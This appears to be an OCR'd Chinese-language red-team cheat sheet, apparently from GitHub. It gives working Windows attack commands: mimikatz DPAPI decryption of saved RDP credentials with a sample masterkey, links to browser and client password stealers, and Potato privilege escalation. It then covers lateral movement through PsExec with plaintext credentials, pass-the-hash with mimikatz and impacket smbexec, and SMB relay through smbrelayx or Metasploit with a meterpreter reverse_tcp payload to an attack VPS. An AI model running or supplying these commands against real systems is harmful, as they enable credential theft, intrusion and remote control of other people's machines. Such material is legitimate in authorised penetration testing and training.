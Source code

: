 ```
#获取RDP保存凭据
cmdkey /list
dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*
mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\2B23BCADBE2FAD8EA21E6E9F0516772C" exit #获取guidMasterKey
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit #获取MasterKey
mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\2B23BCADBE2FAD8EA21E6E9F0516772C /masterkey:39bff149dda4f21fed7843d2633fe719903871b9ac2a96618b1ec87a6c806acbb83f5064e07626310539cd589c1c46d99d59329809e916c240bafef20e7b0c90" exit
#获取Navicat、FileZilla，使用SharpDecryptPwd
#获取浏览器登录凭据，https://github.com/moonD4rk/HackBrowserData
```

#### 特权提升

###### Linux ssid，sudo提权

[辅助工具](https://gtfobins.github.io/)

###### Windows Potato提权

服务账户（service）默认拥有SeImpersonatePrivilege或SeAssignPrimaryTokenPrivilege特权，“Potato”家族：[PetitPotato](https://github.com/wh0amitz/PetitPotato)

#### 横向移动

```
#psExec
PsExec.exe -accepteula \\10.10.10.19 -u Administrator -p Admin@123 -s cmd.exe
#哈希传递（PassThe Hash）
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:Administrator /domain:hack-my.com /ntlm:570a9a65db8fba761c1008a51d4c95ab" exit
python smbexec.py -hashes:570a9a65db8fba761c1008a51d4c95ab hack-my.com/administrator@10.10.10.19
```

#### [impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

###### [smbrelayx](https://blog.csdn.net/qq_36374896/article/details/84593467)

```sh
#run on attack vps
pip install impacket
nmap -sT -p 445 --open --script smb-security-mode.nse,smb-os-discovery.nse 192.168.91.0/24 #扫描未开启smb签名的机器:message_signing: disabled(dangerous, but default)
smbrelayx.py -h target_ip -c "calc.exe"

或者直接用MSF的smb_relay模块代替：
msfconsole
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set lhost attack_vps
set smbhost target_ip
run
#其他机器使用和target_ip相同权限访问攻击机，攻击机可以获取hash，并且触发目标机器执行命令
net use \\attack_vps/user:"Administrator" "ABCabc123"
```

